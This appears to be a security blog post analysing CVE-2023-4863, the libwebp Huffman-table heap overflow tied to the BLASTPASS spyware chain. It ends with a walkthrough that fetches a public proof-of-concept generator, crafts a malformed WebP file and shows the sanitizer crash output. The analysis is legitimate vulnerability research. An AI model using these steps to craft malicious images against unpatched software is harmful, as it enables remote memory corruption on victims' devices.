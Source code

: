 ```yaml
---
title: "CVE-2023-4863: The WebP 0day"
categories:
  - CVEs
tags:
  - CVEs
---
```

Last month, a new zero-day vulnerability was uncovered when Google released a critical update for its Chrome browser. A warning that accompanied the CVE announcement said "Google is aware that an exploit for CVE-2023-4863 exists in the wild": an active threat actor has already exploited this vulnerability. 

**CVE-2023-4863:** Heap buffer overflow in libwebp in Google Chrome prior to 116.0.5845.187 and libwebp 1.3.2 allowed a remote attacker to perform an out of bounds memory write via a crafted HTML page.
{: .notice--info}

####Discovery Timeline
The discovery of CVE-2023-4863 is intricately linked to an earlier Apple CVE, CVE-2023-41064. It all began when Citizen Lab detected suspicious activity on an iPhone belonging to an employee of a Washington DC-based civil society organization. Dubbed "BLASTPASS," this activity was attributed to an NSO Group's Pegasus spyware exploit, specifically a zero-click exploit for iMessage.

Apple swiftly responded by releasing a security bulletin, featuring two new CVEs, CVE-2023-41061 and CVE-2023-41064. On these CVEs, Apple noted, "Apple is aware of a report that this issue may have been actively exploited."

The BLASTPASS attack bypassed the iMessage sandbox, likely by embedding a malicious image in a PassKit attachment. This attack corresponds to the first CVE released by Apple, CVE-2023-41061. The second CVE, CVE-2023-41064, identified a buffer overflow vulnerability in ImageIO, Apple's image parsing framework.

However, the key insight comes from the fact that ImageIO recently started supporting WebP files. Shortly before Apple's security bulletin, Apple's team reported a WebP vulnerability to Chrome, which was rapidly patched. Google marked this fix as "exploited in the wild." It appears that the BLASTPASS vulnerability and CVE-2023-4863 (the WebP 0day) are one and the same.

####The WebP 0day - Technical Analysis
The technical analysis of CVE-2023-4863 sheds light on the inner workings of this zero-day vulnerability. By cross-referencing Chrome's bug ID with open source commits in the libwebp library code, an essential patch was identified: "Fix OOB write in BuildHuffmanTable." This patch was created one day after Apple's report and corresponds to CVE-2023-4863.

This vulnerability is associated with the "lossless compression" support for WebP, using Huffman coding. This coding is a critical component of lossless image compression, where an algorithm assigns shorter or longer sequences of output bits based on the frequency of input values. The vulnerability resided in the handling of the Huffman tables when decoding an untrusted image, leading to an out-of-bounds write.
 
To exploit this issue, an attacker would need to manipulate code lengths, allowing them to exceed the pre-calculated buffer size. The complexity of the Huffman tree and the interaction between various factors make crafting a triggering file non-trivial.

####Technical Walkthrough
I simply wanted to walkthrough the POC process, so I leveraged the research of @mistymntcop and @isosceles. They worked together to reproduce the issue and create a buffer overflow. 

I replicated the bug with the following code:
```html
 # checkout webp
$ git clone https://chromium.googlesource.com/webm/libwebp/ webp_test
$ cd webp_test/
  # checkout vulnerable version
$ git checkout 7ba44f80f3b94fc0138db159afea770ef06532a0
  # enable AddressSanitizer
$ sed -i 's/^EXTRA_FLAGS=.*/& -fsanitize=address/' makefile.unix
  # build webp
$ make -f makefile.unix
$ cd examples/
  # fetch mistymntncop's proof-of-concept code
$ wget https://raw.githubusercontent.com/mistymntncop/CVE-2023-4863/main/craft.c
  # build and run proof-of-concept
$ gcc -o craft craft.c
$ ./craft bad.webp
  # test trigger file
$ ./dwebp bad.webp -o test.png
```
Which generated the following output:
```html
  SUMMARY: AddressSanitizer: heap-buffer-overflow (/home/kali/webp_test/examples/dwebp+0x9eaec) (BuildId: 4c1cbf5ffb5b244be01b298cd51c59ec4d429d35) in BuildHuffmanTable
Shadow bytes around the buggy address:
  0x626000002c80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002d00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002d80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002e00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002e80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x626000002f00: 00 00 00 00 00[fa]fa fa fa fa fa fa fa fa fa fa
  0x626000002f80: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003000: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003080: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003100: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003180: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==22919==ABORTING
```
Despite having limited control over the written value, this POC proves that this version of webp is exploitable via buffer overflow.

####Final Thoughts
The discovery of the WebP 0day, CVE-2023-4863, sheds light on the challenges and complexities of zero-day vulnerabilities in widely used open source libraries. This issue underscores the need for a more comprehensive approach to cybersecurity, combining fuzzing, code audits, and manual analysis.
